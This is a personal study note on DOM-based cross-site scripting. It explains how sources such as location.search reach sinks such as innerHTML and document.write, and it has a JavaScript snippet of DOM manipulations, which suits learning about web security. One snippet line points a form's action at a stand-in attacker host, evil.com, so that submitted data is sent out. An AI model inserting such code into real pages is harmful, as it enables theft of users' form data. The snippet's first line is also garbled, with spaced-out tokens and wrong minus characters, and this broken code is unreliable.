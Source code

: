 tags: #web-security #xss

# DOM-based XSS

links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[themes/000 Index|Index]]

---

- Document Object Model (DOM) is a tree-like representation of the content of a webpage which can be manipulated by javascript ([[Stored XSS#^7ac058|Example]])
- No server interaction, malicious payload can be triggered by a script already on the page which takes user input and improperly processes it, leading to script execution
- Example
	- Website has javascript which prints the URL of the current page using 'document.write()'
	- If an attacker can manipulate the URL and add a script to it, that script will be executed when the page loads
- Main point
	- This type of XSS relies on the client-side environment to execute malicious scripts without communication with the server
	- Bad because the server doesn't get a chance to sanitize the input
	- Sanitization therefore has to happen on the client side as well
- Sources: Where user input comes from
	- document.URL, location.href, location.search
- Sink: Where the user input goes to
	- document.write(), innerHTML, element.src (dynamically adding / changing content on the page)

```javascript
// Create a new node and insert it in the tree
var newli = document . createElement ( " l i " ) ; var newtxtli = document . createTextNode ( " Four " ) ; newli . appendChild ( newtxtli ) ; document . getElementById ( " menu−l i s t " ) . appendChild ( newli ) ;

// Delete a node
firstchild = document.getElementById( "menu−list" )
	.firstChild;
document.getElementById("menu−list")
	.removeChild(firstchild);

// Modify a node
document.getElementById("addbutton")
	.onclick=otherFunction;

// Change the title of a page
var title = document.getElementById("title");
title.innerHTML = "<h1>New Title</h1>";

// Remove the error messages
var node = document.getElementById("error_list");
while (node.firstChild) {
	node.removeChild(node.firstChild);
}

// Change the destination of a formular
document.getElementById("form")
	.action="https://www.evil.com/dest";
```

---
links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[themes/000 Index|Index]]
